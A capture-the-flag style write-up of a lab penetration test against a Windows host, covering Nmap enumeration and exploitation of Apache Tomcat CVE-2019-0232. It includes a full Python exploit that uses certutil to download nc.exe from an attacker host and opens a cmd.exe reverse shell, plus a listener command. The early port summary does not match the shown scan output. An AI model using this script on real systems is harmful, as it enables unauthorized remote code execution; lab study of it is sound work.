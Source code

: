 # Penetration Test for Inlanefreight: Attacking Common Applications

## Introduction
Inlanefreight, a company focused on logistics, presents a robust security posture with a well-hardened network. During the penetration test, after performing thorough enumeration, I encountered a host of particular interest that could potentially be leveraged to gain an initial foothold into the network. The goal of this portion of the skills assessment was to identify vulnerable applications running on the target host, exploit any weaknesses found, and gain access to the flag.txt file to complete the challenge.

## Enumerating the Target Host
The first step in any penetration test is to enumerate the target system and identify any potential vulnerabilities or weak points in its security. Given that the network was well-secured, I employed various enumeration techniques to gather information on the target host:

**1. Network Scanning:**
I performed a network scan using tools such as Nmap to identify open ports and services running on the target machine. The goal was to gather information on potential vulnerable applications that could be exploited.
```bash
nmap -sS -T4 -p- 10.129.76.189
```

This Nmap scan revealed several open ports, including ports for HTTP (80), HTTPS (443), and SSH (22). The presence of an HTTP/HTTPS service indicated a web application that could potentially be vulnerable to common web application flaws.

**2. Service Version Detection:**

To gather more specific information about the services running on the target, I performed service version detection to identify the exact versions of the software. This was done using the following Nmap command:
```bash
nmap -sV 10.129.76.189
```
The scan showed that the target was running Apache Tomcat 9.0.0.M1 on port 8080, which is a well-known application server that may have potential vulnerabilities, including the CVE-2019-0232 remote code execution vulnerability.

**Output:**
```bash
sudo nmap -sV -sC 10.129.76.189
[sudo] password for manoj: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-06 16:14 AEST
Nmap scan report for 10.129.76.189
Host is up (0.32s latency).
Not shown: 991 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_09-01-21  08:07AM       <DIR>          website_backup
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Freight Logistics, Inc
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-05-06T06:14:56+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: APPS-SKILLS1
|   NetBIOS_Domain_Name: APPS-SKILLS1
|   NetBIOS_Computer_Name: APPS-SKILLS1
|   DNS_Domain_Name: APPS-SKILLS1
|   DNS_Computer_Name: APPS-SKILLS1
|   Product_Version: 10.0.17763
|_  System_Time: 2025-05-06T06:14:47+00:00
| ssl-cert: Subject: commonName=APPS-SKILLS1
| Not valid before: 2025-05-05T06:13:32
|_Not valid after:  2025-11-04T06:13:32
8000/tcp open  http          Jetty 9.4.42.v20210604
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.42.v20210604)
8009/tcp open  ajp13         Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/9.0.0.M1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-05-06T06:14:49
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.94 seconds
```

![image](https://github.com/user-attachments/assets/60bb5dbd-f4aa-4f0d-8b6f-f3f1cb398cf2)

## Identifying Vulnerable Applications
During the enumeration phase, I focused on identifying any applications or services that might be vulnerable to known exploits. One such service was **Apache Tomcat**, which was running **version 9.0.0.M1**. After researching this version, I found that it was vulnerable to **CVE-2019-0232**, a remote code execution vulnerability in Tomcat's CGI scripts on Windows systems.

This vulnerability can be exploited by sending crafted HTTP requests to the Tomcat server that invoke the `cmd.bat` script, allowing an attacker to execute arbitrary commands on the server. With this in mind, I began the exploitation process.

## Exploiting Apache Tomcat CVE-2019-0232
To exploit the vulnerability in Apache Tomcat, I used a custom Python script that leverages the certutil tool to download and execute Netcat on the target machine. This allows the attacker to obtain a reverse shell and gain control of the system.

Below is the script I used for exploitation:
```bash
#!/usr/bin/env python3
import time
import requests

# ================== USER CONFIGURATION ================== #
target_host = '10.129.76.189'     # Victim IP (Apache Tomcat CGI vulnerable host)
target_port = '8080'               # Apache Tomcat HTTP port

attacker_ip = '10.10.14.64'        # Your IP (attacker box)
attacker_http_port = '80'         # Port where you're serving nc.exe
listener_port = '1234'            # Port where you're listening with nc
# ======================================================== #

# Build the payload to download nc.exe using certutil
url1 = f"http://{target_host}:{target_port}/cgi/cmd.bat?" \
       f"&&C%3a%5cWindows%5cSystem32%5ccertutil+-urlcache+-split+-f+" \
       f"http%3A%2F%2F{attacker_ip}%3A{attacker_http_port}%2Fnc.exe+nc.exe"

# Build the payload to execute nc.exe and get a reverse shell
url2 = f"http://{target_host}:{target_port}/cgi/cmd.bat?" \
       f"&nc.exe+{attacker_ip}+{listener_port}+-e+cmd.exe"

print("[*] Sending payload to download nc.exe...")
response1 = requests.get(url1)
print(f"[+] URL1 Response Code: {response1.status_code}")

# Wait a bit to let the victim download nc.exe
time.sleep(2)

print("[*] Sending payload to execute nc.exe for reverse shell...")
response2 = requests.get(url2)
print(f"[+] URL2 Response Code: {response2.status_code}")

print("[*] Exploit triggered. Check your Netcat listener.")
```
![image](https://github.com/user-attachments/assets/70181b78-7c51-4a5e-bee3-981c438e66b4)

![image](https://github.com/user-attachments/assets/aa04a2e0-3357-4c5c-aa8f-07746c756a9e)


**Explanation of the Script:**

**Payload URL 1**: This URL triggers the `cmd.bat` script on the Tomcat server and uses certutil to download Netcat (`nc.exe`) from the attacker's server.

**Payload URL 2**: This second URL executes the downloaded Netcat and establishes a reverse shell back to the attacker's machine on port 1234.

## Setting Up the Listener
Before running the exploit script, I set up a Netcat listener on my local machine to receive the reverse shell connection:
```bash
nc -lvnp 1234
```
Once the script successfully executed the reverse shell payload, a connection was established to my listener, granting me access to the target machine.

![image](https://github.com/user-attachments/assets/9a9ec0c6-6a2c-4432-8dea-6c7416259945)

**Note:** You have to download `nc.exe` file and put in the same folder where vulnerable script is. 


## Gaining Access and Retrieving the Flag
With the reverse shell established, I was able to navigate the system's file structure. The goal was to find the flag.txt file, which was located on the Administrator's desktop. Using the following command, I accessed the file:
```bash
cat C:\Users\Administrator\Desktop\flag.txt
```
The contents of the `flag.txt` file were successfully retrieved and submitted to complete the assessment.

## Conclusion
This penetration test demonstrated how an attacker could exploit a vulnerability in Apache Tomcat to gain unauthorized access to a system. By identifying the CVE-2019-0232 vulnerability in the target's Tomcat instance, I was able to leverage a custom script to execute arbitrary commands and gain a reverse shell. Once access was obtained, I was able to retrieve the flag.txt file and complete the skills assessment.

The process highlights the importance of keeping web application servers like Apache Tomcat up to date with security patches, as well as securing services from unauthorized access by applying the principle of least privilege and isolating sensitive systems.



